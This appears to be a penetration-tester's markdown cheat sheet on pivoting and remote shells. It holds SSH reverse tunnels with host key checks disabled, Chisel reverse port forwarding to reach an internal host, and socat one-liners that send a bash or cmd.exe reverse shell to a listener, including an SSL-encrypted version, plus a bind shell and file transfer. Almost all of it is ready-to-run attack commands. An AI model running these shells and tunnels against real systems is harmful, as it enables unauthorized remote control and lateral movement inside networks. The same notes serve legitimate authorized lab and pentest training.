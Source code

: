 ## SSH reverse tunneling
```bash
ssh -f -N -R 8000:10.3.3.14:80 -R 4443:10.3.3.14:443 -R 33306:10.3.3.14:3306 -R 33389:10.3.3.14:3389  -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i key kali@192.168.19.57

# kill with
ps -C ssh
kill -9 <pid>
```

## Chisel [Github]

```bash
# on my kali [192.168.19.57 for ex]
./chisel_1.7.0_linux_amd64 server -p 8000 --reverse
# on the server I can reach [10.11.1.251 for ex]
./chisel_1.7.0_linux_386 client 192.168.19.57:8000 R:80:10.3.3.14:80
# in above the 10.3.3.14 is the one I can't reach directly from kali
```


## Socat basics
```bash
----
# socat connect
socat TCP4:10.1.1.1 443 # nc 10.1.1.1 443

# socat listen
sudo socat TCP4-LISTEN:443 STDOUT # nc -nlvp 443

----

# socat listen and send file on connect 
sudo socat TCP4-LISTEN:443,fork file:dump.txt # nc -nlvp 443 < dump.txt

# socat connect and receive file
socat TCP4:10.1.1.1:443 file:dump.txt,create # nc 10.1.1.1 443 > dump.txt

----

# socat listen for reverse shell 
socat -d -d TCP4-LISTEN:443 STDOUT # -d for verbose, nc -nlvp 443

# socat send reverse shell
socat TCP4:10.1.1.1:443 EXEC:/bin/bash

----

# socat encrypted ssl listener with self signed cert
sudo socat OPENSSL-LISTEN:443,cert=my_cert.pem,verify=0,fork EXEC:/bin/bash # this is to bind shell

# socat connect to ssl listener
socat - OPENSSL:10.1.1.1:443,verify=0

----

# socat encrypted ssl listener with self signed cert
sudo socat OPENSSL-LISTEN:443,cert=my_cert.pem,verify=0,fork STDOUT # this is reverse shell listener

# socat connect to ssl listener and send rev shell
socat - OPENSSL:10.1.1.1:443,verify=0 EXEC:'cmd.exe',pipes

```